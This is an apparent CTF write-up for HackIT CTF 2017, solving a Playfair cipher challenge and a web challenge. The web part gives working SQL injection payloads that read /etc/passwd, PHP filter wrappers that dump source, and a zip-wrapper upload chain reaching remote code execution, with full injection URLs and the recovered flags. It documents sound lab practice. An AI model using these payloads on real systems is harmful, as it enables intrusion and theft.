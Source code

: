 <h1>HackIT CTF 2017 Writeups</h1>

<h3>Crypto (100):  </h3><br>
Description shows that its a playfair cipher with same original message, we can use some online tools to bruteforce it <br>
https://www.quinapalus.com/playfair.html worked just fine, after extracting each message we get the keyword to cipher it<br>
and finally we append the keywords together and put them in flag format <br>
<code><br>
h4ck1t{hackitisverydangercrypto}
</code>



<h3>Web (100): </h3><br>
This challenge is about SQLi+LFI and turn that to RCE with the upload function
Looks like easy sql injection, but after fetching all tables and columns, only thing we got is a table named countries with 3 columns, nothing interesting<br>
but when we try to get current query with SQLi using <b>SELECT info FROM information_schema.processlist</b><br>
We see the query : Select scripPath from countries where countryname='something'<br>
thats looks like an LFI to mee, when we inject <code>countryname='' union select '/etc/passwd' -- - </code> we get passwd file<br>
<br>I used PHP wrappers to pull index.php and country/fr.php<br>
using countryname='' union select 'php://filter/read=convert.base64-encode/resource=country/fr.php'<br>
when we get source code we can base64 decode it and see where the file uploaded are stored<br>
This is the final part, we need to leverage the upload to a Remote code execution, I used a zip file containing php and uploaded it<br>
and used a zip wrapper to execute my php, http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27zip://uploads/l33t.zip%23secret.php%27%20--%20- <br>
my php file contains scandir function thats equivalent to 'ls' <br>
i got this response :
<code>Array ( [0] => . [1] => .. [2] => .htaccess [3] => country [4] => index.php [5] => iulersiueruigfuihseruhgi.php [6] => static [7] => uploads )</code>
<br>
that php file looked interesting, let's open it : http://tasks.ctf.com.ua:13372/index.php?country=%27%20union%20select%20%27php://filter/read=convert.base64-encode/resource=iulersiueruigfuihseruhgi.php%27%20--%20-
<br>
got this : PD9waHAKCiRmbGFnPSJoNGNrMXR7JFFMJkxGST1GUjEzTkQkfSI7Cgo/Pgo= <br>
base64 decode it and find some php code with flag<code>"$flag=h4ck1t{$QL&LFI=FR13ND$};"</code>
that's our flag
